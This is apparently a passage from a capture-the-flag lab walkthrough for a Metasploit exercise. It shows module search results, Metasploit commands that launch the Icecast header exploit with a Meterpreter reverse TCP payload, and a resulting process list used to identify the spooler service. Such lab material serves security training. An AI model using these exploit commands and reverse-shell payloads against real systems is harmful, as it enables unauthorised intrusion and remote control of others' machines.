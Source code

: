 ```
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   6  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence


Interact with a module by name or index. For example info 8, use 8 or use exploit/linux/local/yum_package_manager_persistence
```

**Answer**: `#`
## We're in, now what?
### What's the name of the spool service?
```
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > use exploit/windows/http/icecast_header
msf6 exploit(windows/http/icecast_header) > set LHOST tun0
msf6 exploit(windows/http/icecast_header) > set RHOSTS <MACHINE_IP>
meterpreter > ps

Process List
============

 PID   PPID  Name                    Arch  Session  User          Path
 ---   ----  ----                    ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 416   4     smss.exe
 544   536   csrss.exe
 560   816   WmiPrvSE.exe
 584   692   svchost.exe
 592   536   wininit.exe
 604   584   csrss.exe
 652   584   winlogon.exe
 692   592   services.exe
 700   592   lsass.exe
 708   592   lsm.exe
 816   692   svchost.exe
 884   692   svchost.exe
 932   692   svchost.exe
 1020  692   svchost.exe
 1056  692   svchost.exe
 1136  692   svchost.exe
 1292  692   mscorsvw.exe
 1308  1020  dwm.exe                 x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1320  1296  explorer.exe            x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1360  692   spoolsv.exe
 1388  692   svchost.exe
 1428  692   taskhost.exe            x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1548  692   amazon-ssm-agent.exe
 1636  692   LiteAgent.exe
 1672  692   svchost.exe
 1768  692   sppsvc.exe
 1816  692   Ec2Config.exe
 2080  692   svchost.exe
 2240  692   TrustedInstaller.exe
```